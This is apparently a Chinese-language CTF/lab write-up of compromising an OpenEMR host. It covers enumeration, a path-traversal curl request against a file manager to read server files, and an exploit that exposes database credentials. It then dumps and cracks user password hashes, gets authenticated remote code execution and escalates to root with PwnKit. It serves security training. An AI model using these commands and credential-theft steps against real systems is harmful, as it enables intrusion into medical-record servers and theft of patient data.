# 信息收集

## nmap



## 80端口-web

可以对以下路径扫目录，可以扫到很多内容，但是好多都是无法访问的，

openemr/interface目录是通过主页面下的登录界面知道的路径

> http://ip/
>
> http://ip/openemr/
>
> http://ip/openemr/interface




## smb





# exploit

smb中的文件正好是filemanager目录下的文件，这个页面访问的很慢，通过官方给的web端的kali访问也很慢，并且根据wp中的访问右上角的问号可以查看版本号也不太行，只能根据wp中已经给出的版本号继续做了，这个文件管理系统的版本号是9.13.4



该版本存在任意文件读取漏洞，修改cookie和url地址就可以成功读取文件


https://www.exploit-db.com/exploits/45987



通过其中的第一个payload只能读取部分文件，比如读取`/openemr/interface/main/backuplog.sh`文件时，就会报错提示权限不足，这个文件时访问web界面时可以读取的文件，其他php文件不可以读取

绝对路径路径也很容易猜测`var/www/openemr/interface/main/backuplog.sh`



```
curl -X POST -d "path=../../../../../../../var/www/openemr/interface/main/backuplog.sh" -H "Cookie: PHPSESSID=30740g3d5mgv1l1lbj3eldup6o" "http://192.168.219.145/filemanager/ajax_calls.php?action=get_file&sub_action=edit&preview_mode=text"
```




尝试寻找其他exp

https://www.exploit-db.com/exploits/49359



通过github上的源码，可以找到数据库的配置文件在sites/default/sqlconf.php下

该exp是粘贴在默认目录下，可以将目录改为之前发现的smb目录下，这样做的目的是文件读取的时候对后缀名进行了限制，比如`sqlconf.php`通过exp是无法直接读取的，所以将文件写到smb下，可以通过smb来读取





运行exp之后也是成功将php文件写到了smb下





sql配置文件夹下有数据库连接账号密码



```
openemr:C78maEQUIEuQ
```

```
 mysql -h 192.168.133.145 -P 3306 -u openemr -p --skip-ssl-verify-server-cert
```



```
数据库操作
SHOW DATABASES;
use openemr;
SHOW TABLES;
select * from users;
```



```
admin:NoLongerUsed 
phimail-service:NoLogin
portal-user:NoLogin     
```

这里有坑，正确密码应该是在`users_secure`表下，查询得到加密方式，然后使用hashcat指定加密方式去破解







```
admin:thedoctor
```

# 成功登录openemr

使用上述账号密码就可以成功登录到openemr的后台。about选项卡中有openemr的版本号



https://www.exploit-db.com/exploits/45161

查找该版本存在的漏洞，存在经过验证的远程代码执行，通过该exp可以成功得到shell



# 提权

可以使用PwnKit漏洞



之前找到的admin的密码thedocter就是root的密码也可以通过密码提权